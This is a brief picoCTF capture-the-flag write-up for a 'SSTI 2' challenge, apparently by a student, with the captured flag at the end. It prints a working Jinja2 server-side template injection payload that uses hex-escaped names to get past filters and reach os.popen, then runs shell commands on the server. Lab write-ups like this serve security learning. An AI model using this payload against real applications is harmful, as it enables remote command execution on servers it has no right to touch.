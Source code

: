 # SSTI 2
- first again i read what sst12 is from the official port swigger document
- after that found out about the tempelate {3*3} and the other to find what type of html formatting is being done
- it cam out to be jinga(spelling might be wrong)
- after that i searched which payload to use for that i found a site that had the jinja payloads
- https://onsecurity.io/article/server-side-template-injection-with-jinja2/
- i tried all the payloads in that page but only this one word after in the space i did ls -a and then cat the flag i wrote in the id place
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}


```
## Flag
picoCTF{sst1_f1lt3r_byp4ss_afa6aa72}


## Resource
- the official port swigger document
- https://onsecurity.io/article/server-side-template-injection-with-jinja2/

